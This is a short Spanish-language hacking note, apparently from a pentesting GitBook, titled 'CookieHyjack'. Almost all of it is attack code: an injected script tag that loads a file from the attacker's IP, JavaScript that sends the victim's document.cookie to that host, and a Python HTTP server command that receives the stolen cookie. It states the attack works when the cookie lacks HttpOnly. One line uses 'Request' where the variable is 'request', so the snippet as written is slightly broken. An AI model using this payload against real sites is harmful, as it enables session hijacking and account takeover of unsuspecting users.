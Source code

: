 # CookieHyjack

Este script básico funciona siempre y cuando la cookie del usuario victima tenga en false la propiedad HttpOnly&#x20;

```
// entrada de la web, hace un llamado a nuestro servidor donde hay alojado el fichero que recoge la cookie 
<script src="IP_atacante/fichero.js"></script>   
```

```
// fichero para recoger la cookie del usuario 
var request = new XMLHttpRequest();
Request.open('GET', 'http://IP_atacante/?cookie=' + document.cookie);
request.send();
```

```
// servidor donde recibimos la cookie
python3 -m http.server 80
```

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (9).png" alt="" width="563"><figcaption></figcaption></figure>

</div>

